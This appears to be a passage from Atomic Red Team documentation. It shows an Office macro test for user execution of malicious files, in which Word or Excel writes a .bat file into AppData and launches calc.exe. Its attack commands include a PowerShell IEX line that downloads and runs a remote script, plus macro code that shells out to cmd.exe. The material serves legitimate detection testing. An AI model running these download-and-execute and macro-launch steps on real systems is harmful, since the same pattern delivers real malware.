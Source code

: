 

#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #5 - Office launching .bat file from AppData
Microsoft Office creating then launching a .bat script from an AppData directory. The .bat file launches calc.exe when opened.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bat_path | Path to malicious .bat file | String | $("$env:temp&#92;art1204.bat")|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{bat_path}`" For Output As #1`n   Write #1, `"calc.exe`"`n   Close #1`n   a = Shell(`"cmd.exe /c $bat_path `", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct #{ms_product}
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 } 
```